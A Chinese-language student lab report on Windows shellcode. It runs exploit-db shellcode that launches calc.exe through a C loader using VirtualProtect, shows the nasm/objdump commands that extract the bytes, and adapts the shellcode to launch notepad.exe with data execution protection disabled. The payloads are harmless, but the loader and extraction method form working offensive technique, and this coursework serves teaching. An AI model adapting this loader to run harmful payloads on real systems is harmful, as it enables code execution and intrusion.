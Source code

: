 # 逆向工程与软件安全实验报告  
## shellcode相关
### 实验任务  
- [x] 给出shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad.exe  
- [ ] (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  

### 实验过程  

##### 给出shellcode能够成功运行  
[shellcode源代码](https://www.exploit-db.com/shellcodes/48116)  
新建`calc.c`文件  
```C
    #include <windows.h>
    #include <stdio.h>

    char code[] = \
    "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
    "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
    "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
    "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
    "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
    "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
    "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
    "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
    "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
    "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
    "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
    "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
    "\x52\xff\xd0";//汇编生成

    int main(int argc, char **argv)
    {
    int (*func)();//函数指针
    func = (int(*)()) code;
    DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    (int)(*func)();
    }
```  
成功运行  
* 注意  
    1. 一定需要`.c`文件，`.cpp`文件会报强制类型转换相关错误(认真踩坑)  
    ![强制类型转换](./image/强制类型转换.png)  
    2. 关闭数据执行保护编译选项  
    ![数据执行保护](./image/数据执行保护.png)  
    

##### 能从汇编源码编译通过并成功dump  
Kali虚拟机中新建`win32-WinExec_Calc-Exit.asm`  
将汇编源码加入`.asm`文件  
```
nasm -f win32 win32-WinExec_Calc-Exit1.asm -o win32-WinExec_Calc-Exit1.o  
for i in $(objdump -D win32-WinExec_Calc-Exit1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
```  
![汇编生成](./image/calc汇编.png)  

##### 解读shellcode原理  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  


##### 修改shellcode功能为运行记事本程序notepad.exe  
对应汇编文件内容修改  
![修改汇编](./image/修改汇编.png)  
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
![汇编生成](./image/汇编生成.png)  
新建notepad.c文件  
```C
#include <windows.h>
#include <stdio.h>
//生成notepad.exe
char code1[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89"
"\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08"
"\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x82"
"\xff\xff\xff\x31\xd2\x52\xff\xd0";
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code1, sizeof(code1), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)())code1;
	(int)(*func)();
}
```  
成功运行  
![成功运行](./image/成功运行.png)  



